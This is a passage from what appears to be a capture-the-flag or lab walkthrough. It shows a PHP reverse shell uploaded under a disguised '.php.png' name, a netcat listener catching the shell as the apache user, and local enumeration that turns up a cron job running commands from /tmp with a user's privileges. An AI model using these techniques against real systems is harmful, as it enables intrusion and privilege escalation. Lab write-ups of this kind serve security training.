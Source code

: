                <pc><p><code>keKkeKKeKKeKkEkkEk</code></p></pc>
           </td>
        </tr>
      </tbody>

</table>
</div>

## PHP Reverse Shell

The file name <code>shell.php.png</code> was used to bypass the web application filtering, the file was still executed as PHP (likely due to incorrectly configured Apache MIME types). A reverse shell successfully connected back to a netcat listener.

{% highlight bash %}
[root:~]# netcat -n -v -l -p 443
listening on [any] 443 ...
connect to [192.168.221.139] from (UNKNOWN) [192.168.221.150] 34400
Linux localhost.localdomain 2.6.32-573.8.1.el6.x86_64 #1 SMP Tue Nov 10 18:01:38 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 18:26:33 up  5:37,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: no job control in this shell
sh-4.1$ whoami
whoami
apache
{% endhighlight %}

## Local Enumeration

Enumeration of the users home dir found several binary files and the following txt file:

{% highlight bash %}

sh-4.1$ cat notes
cat notes.txt
Yo EZ,

I made it possible for you to do some automated checks,
but I did only allow you access to /usr/bin/* system binaries. I did
however copy a few extra often needed commands to my
homedir: chmod, df, cat, echo, ps, grep, egrep so you can use those
from /home/admin/

Don't forget to specify the full path for each binary!

Just put a file called "runthis" in /tmp/, each line one command. The
output goes to the file "cronresult" in /tmp/. It should
run every minute with my account privileges.

- Jerry

{% endhighlight %}
